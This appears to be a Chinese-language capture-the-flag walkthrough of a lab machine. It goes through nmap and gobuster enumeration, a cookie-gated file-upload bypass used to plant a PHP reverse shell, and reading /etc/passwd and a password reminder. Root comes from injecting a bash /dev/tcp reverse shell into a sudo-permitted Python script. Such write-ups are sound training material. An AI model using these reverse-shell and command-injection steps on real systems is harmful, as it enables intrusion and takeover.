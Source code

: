 # 服务扫描

## 使用 nmap 进行基础扫描

扫描所执行的命令，执行结果如下

```
sudo nmap -sn 10.10.10.0/24

sudo nmap --min-rate 10000 -p- 10.10.10.31   

sudo nmap -sC -sT -sV -p22,80 10.10.10.31 

sudo nmap --script=vuln -p22,80 10.10.10.31 
```

![[Pasted image 20250516234737.png]]

## gobuster 爆破目录

在漏洞扫描中发现了许多目录，因此进行更详细的目录爆破

```
sudo gobuster dir -u http://10.10.10.31 -w /usr/share/wordlists/dirb/common.txt -x php,php.bak,jsp.zip,html
```

![[Pasted image 20250516235041.png]]

# Web 渗透

## 页面分析

这是 80端口 的页面

![[Pasted image 20250516235205.png]]

dashborard 界面像是一个文件上次的界面，可能存在 **文件上传** 漏洞

![[Pasted image 20250516235722.png]]

ajax.bak 是备份文件，curl 下载看看

```
curl http://10.10.10.31/ajax.php.bak
```

![[Pasted image 20250516235818.png]]

审计源码，文件上传的时候当 **cookie** 名为 **admin** ， 值为**&G6u@B6uDXMq&Ms** 同时 POST 名为 **secure** ，值为 **val1d** 的时候可以上传 pdf、php、txt 文件，否则只能上传 txt 文件
（注释说 cookie 末尾要加一个大写字母）

其他的都是文件目录

![[Pasted image 20250516235257.png]]

打开 main.js 可以看到 js 源码

![[Pasted image 20250516235324.png]]

审计源码提示我们存在 **文件上传** ，应该就是 dashboard 界面

使用 kali 自带的 php 反弹 shell，目录在 **/usr/share/webshells**

抓包上传，添加要求的 cookie 和 POST

![[Pasted image 20250517000559.png]]

因为 cookie 末尾还要加一个未知的大写字母，所以爆破一下

![[Pasted image 20250517000820.png]]

![[Pasted image 20250517000841.png]]

发现为 R 是 响应 1，正确字母为 R

![[Pasted image 20250517001148.png]]

加上放行

![[Pasted image 20250517001307.png]]

上传成功，用更大的字典目录爆破以下查找上传到的文件夹

```
sudo gobuster dir -u http://10.10.10.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

![[Pasted image 20250517001519.png]]

![[Pasted image 20250517001542.png]]

nc 监听启动 shell

![[Pasted image 20250517001623.png]]

# Linux 提权

切换更好的 bash 交互界面

```
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

![[Pasted image 20250517001717.png]]

passwd 有可读权限，查看拥有 bash 环境的用户

```
ls -liah /etc/passwd

cat /etc/passwd | grep "/bin/bash"
```

![[Pasted image 20250517001843.png]]

```
cd ../../../../../home/athena

ls

cat user.txt

cat password-reminder.txt
```

![[Pasted image 20250517002350.png]]

拿到密码，切换用户，查看 sudo -l 权限

```
su athena

myvulnerableapp*

sudo -l
```

![[Pasted image 20250517002433.png]]

可以免 root 使用 python3 执行 cookie-gen.py，查看 cookie-gen.py 文件

```
ls -liah /home/team-tasks/cookie-gen.py

cat /home/team-tasks/cookie-gen.py
```

![[Pasted image 20250517002618.png]]

审计源码 发现可以拼接字符串执行命令

```
sudo python3 /home/team-tasks/cookie-gen.py

aaa&bash -c 'bash -i >& /dev/tcp/10.10.10.5/2348 0>&1'
bash -c 'bash -i >& /dev/tcp/10.10.10.5/2348 0>&1'
```

![[Pasted image 20250517002922.png]]

拿下机器